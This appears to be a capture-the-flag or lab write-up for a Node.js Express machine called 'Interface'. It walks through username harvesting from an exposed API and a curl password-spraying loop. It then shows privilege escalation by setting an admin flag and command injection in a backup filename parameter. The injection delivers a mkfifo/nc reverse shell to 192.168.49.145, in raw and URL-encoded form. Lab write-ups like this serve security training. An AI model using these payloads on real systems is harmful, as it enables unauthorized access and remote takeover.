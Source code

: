 # Interface

### Enumeration

```
80/tcp open  http    Node.js Express framework
|_http-title: App
|_http-favicon: Unknown favicon MD5: 1FBDF735A0DD3E8321C5E0828A45A4D5
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

**Burp Suite -> Proxy History ->** `GET /api/users HTTP/1.1`

It returns JSON, it contains 2000 usernames.

Saved to this file. -> usernames.txt

We need to tidy them.

```
$ cat usernames.txt | sed 's/,//g' | sed 's/""/\n/g' > usernames
```

Brute force with users -> using password as password

```
$ while read line; do curl -s -X POST -H 'Content-Type: application/json' --data-binary "{\"username\":\"$line\",\"password\":\"password\"}" http://192.168.145.106/login | grep -v Unauthorized && echo $line; done < usernames
OK
[REDACTED]
```

**Alternative way:**

Using Burp Suite Professional

Login -> \[REDACTED]:password

Exploring website -> You can see the workflow

```
POST /api/settings HTTP/1.1
...
{"color-theme":"dark"}

GET /api/settings HTTP/1.1
...
{"color-theme":"dark","lang":"en","admin":false}
```

**PrivEsc for our user:**

```
POST /api/settings HTTP/1.1
...
{"color-theme":"dark","admin":"true"}
```

```
GET /api/backup?filename=test HTTP/1.1

In the response:
Created backup: /var/log/app/logfile-test.gz
```

Archiving with gunzip - may be there is os command inj?

### Access

OS Command Inj with using: **`;`**

https://www.revshells.com/ - nc mkfifo 192.168.49.145 80 bash

URL Encode Key Characters OR URL Encode All Chars

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.49.145 80 >/tmp/f
```

```
GET /api/backup?filename=;+rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|bash+-i+2>%261|nc+192.168.49.145+80+>/tmp/f; HTTP/1.1
```
